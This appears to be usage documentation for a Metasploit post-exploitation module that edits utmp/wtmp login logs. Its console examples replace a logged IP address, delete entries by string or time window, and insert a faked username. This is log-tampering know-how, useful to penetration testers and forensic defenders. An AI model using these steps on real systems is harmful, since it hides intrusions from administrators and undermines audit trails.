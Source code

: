 This module modifies utmp/wtmp logfiles. Entries can be removed based on a
search string or based on a given timeframe. Alternatively entries can be
changed for faked logs.

## Module Options


**FILES**

Define a special file to dump. If not defined a list of typical locations is
used

**LOCALEDIT**

Convert logfile into text format and launch an editor for editing it. By
default $EDITOR is used, 'vi' is fallback editor.
On some editors/settings you need to allow longer lines.
VI: ```set tw=0```

**REMOVETIME_START**

Select all entries after this time. Format is relativ flexible because it uses [Time.parse](http://ruby-doc.org/stdlib-2.2.3/libdoc/time/rdoc/Time.html#method-c-parse).

**REMOVETIME_STOP**

Select all entries before this time. Format is relativ flexible because it uses [Time.parse](http://ruby-doc.org/stdlib-2.2.3/libdoc/time/rdoc/Time.html#method-c-parse).


**REPLACE**

Replace string to be insered into log entry instead of the original string. This can be used for generating faked logs.

**STRING**

Search log entries for a special string (Regex) and remove them or replace with another string (if REPLACE is defined)


**USE_UPDATEDB**

Use or created (if not already created) updatedb for finding logfiles

**SESSION**

Which session to use, which can be viewed with `sessions -l`


## Scenario

### Original entry:

```
ut_type              [user process                            ]
ut_pid               [7751                                    ]
ut_line              [pts/0                                   ]
ut_id                [808416116                               ]
ut_user              [locxxxxx                                ]
ut_host              [dslb-xxx-xxx-xxx-xxx.pools.xxxxxxxx.net ]
ut_exit              [0                                       ]
ut_tv_sec            [2000-01-26 19:20:32 +0100               ]
ut_tv_usec           [0                                       ]
ut_session           [433397                                  ]
ut_addr_v6           [IPv4 127.127.127.127                    ]
unused               [                                        ]

```
### Changing the IP address:

```
msf post(clear_utmp) > set FILES /tmp/utmp
FILES => /tmp/utmp
msf post(clear_utmp) > set SESSION 1
SESSION => 1
msf post(clear_utmp) > set STRING 188.99.140.231
STRING => 188.99.140.231
msf post(clear_utmp) > set REPlACE 127.0.0.1
REPlACE => 127.0.0.1
msf post(clear_utmp) > run
[*] Post module execution completed

```

New entry:

```
ut_type              [user process                            ]
ut_pid               [7751                                    ]
ut_line              [pts/0                                   ]
ut_id                [808416116                               ]
ut_user              [locxxxxx                                ]
ut_host              [dslb-xxx-xxx-xxx-xxx.pools.xxxxxxxx.net ]
ut_exit              [0                                       ]
ut_tv_sec            [2000-01-26 19:20:32 +0100               ]
ut_tv_usec           [0                                       ]
ut_session           [433397                                  ]
ut_addr_v6           [IPv4 127.0.0.1                          ]
unused               [                                        ]

```


### Removing an entry

```
msf post(clear_utmp) > unset REPLACE
Unsetting REPLACE...
msf post(clear_utmp) > info

       Name: Utmp Logfiles Cleaner
     Module: post/unix/general/logs/clear_utmp
   Platform:
       Arch:
       Rank: Normal

Provided by:
  jot

Basic options:
  Name              Current Setting  Required  Description
  ----              ---------------  --------  -----------
  FILES             /tmp/utmp        no        A special log file
  LOCALEDIT         false            no        Edit text dump in local editor
  REMOVETIME_START                   no        Delete all entries between REMOVETIME_START andREMOVETIME_STOP 
  REMOVETIME_STOP                    no        Delete all entries between REMOVETIME_START andREMOVETIME_STOP 
  REPLACE                            no        A string for replacing the original string (if empty logentries will be removed)
  SESSION           1                yes       The session to run this module on.
  STRING            127.127.127.127  yes       A string to be removed from the log files
  USE_UPDATEDB      true             no        Use an updatedb database and search for filenames instead of full path

Description:
  Clear utmp log files

msf post(clear_utmp) > run
[*] Post module execution completed
msf post(clear_utmp) >
```
New entry:

*removed*

### Remove all entries within a timeframe

```
msf post(clear_utmp) > unset STRING
Unsetting STRING...
msf post(clear_utmp) > set REMOVETIME_START  2000-01-26 19:00:00
REMOVETIME_START => 2000-01-26 19:00:00
msf post(clear_utmp) > set REMOVETIME_STOP  2000-01-26 21:00:00
REMOVETIME_STOP => 2000-01-26 21:00:00
msf post(clear_utmp) > run
[*] Post module execution completed

```
New entry:

*removed*

### Manual edit a logfile
This converts all logentries into text format and lauches a text editor for
editing this

```
msf post(clear_utmp) > set VERBOSE true
VERBOSE => true
msf post(clear_utmp) > set LOCALEDIT true
LOCALEDIT => true
msf post(clear_utmp) > run

[*] base64 command already known: cat __READ_FILE__ 2>/dev/null|base64
[*] Max line length is 4096
[*] Maximal line length: 4096
[*] already found a command for echo: echo 'CONTENTS'|xxd -p -r
[*] Writing 3328 bytes in 4 chunks of 2010 bytes (bare_hex-encoded), using xxd
[*] Next chunk is 2010 bytes
[*] Next chunk is 2010 bytes
[*] Next chunk is 626 bytes
[*] Maximal line length: 4096
[*] already found a command for echo: echo 'CONTENTS'|xxd -p -r
[*] Writing 3072 bytes in 4 chunks of 2010 bytes (bare_hex-encoded), using xxd
[*] Next chunk is 2010 bytes
[*] Next chunk is 2010 bytes
[*] Next chunk is 114 bytes
[*] Post module execution completed
```

New entry:

```
ut_type              [user process                            ]
ut_pid               [7751                                    ]
ut_line              [pts/0                                   ]
ut_id                [808416116                               ]
ut_user              [faked_user_here                         ]
ut_host              [dslb-xxx-xxx-xxx-xxx.pools.xxxxxxxx.net ]
ut_exit              [0                                       ]
ut_tv_sec            [2000-01-26 19:20:32 +0100               ]
ut_tv_usec           [0                                       ]
ut_session           [433397                                  ]
ut_addr_v6           [none                                    ]
unused               [                                        ]

```

## Known bugs
Sometimes a file check fails (test -e; test -r and test -w). In this case this
module simply needs to be executed again.

Example:

```
msf post(clear_utmp) > run

[-] read permissions: true
[-] write permissions: true
[-] Need read and write permissions for /tmp/utmp for changing it! Cannot go on
[-] This could also be a known bug of this check. In this case you simply need to re-run this module

```
